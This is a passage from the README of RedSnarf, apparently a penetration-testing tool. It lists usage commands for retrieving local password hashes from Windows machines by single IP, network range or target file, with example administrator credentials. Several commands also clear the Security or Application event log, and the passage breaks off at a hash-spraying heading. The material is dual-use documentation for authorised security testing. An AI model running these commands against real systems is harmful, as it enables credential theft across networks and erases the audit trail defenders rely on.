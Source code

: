 Termcolor (1.1.0) - pip install termcolor  

iconv - used with parsing Mimikatz info locally  



**Show Help**  

./redsnarf.py -h  

./redsnarf.py --help  



Retrieve Local Hashes

=======================



Retrieve Local Hashes from a single machine using weak local credentials and clearing the Security event log  

**./redsnarf.py -H ip=10.0.0.50 -uC security**



Retrieve Local Hashes from a single machine using weak local credentials and clearing the application event log  

**./redsnarf.py -H ip=10.0.0.50 -uC application**



Retrieve Local Hashes from a single machine using local administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d .**



Retrieve Local Hashes from a single machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com**



Retrieve Hashes across a network range using local administrator credentials  

**./redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d .**



Retrieve Hashes across a network range using domain administrator credentials  

**./redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d yourdomain.com**



Retrieve Hashes across a network range using domain administrator credentials  

**./redsnarf.py -H file=targets.txt -u administrator -p Password01 -d yourdomain.com**



Hash Spraying

=======================



Spray Hashes across a network range   
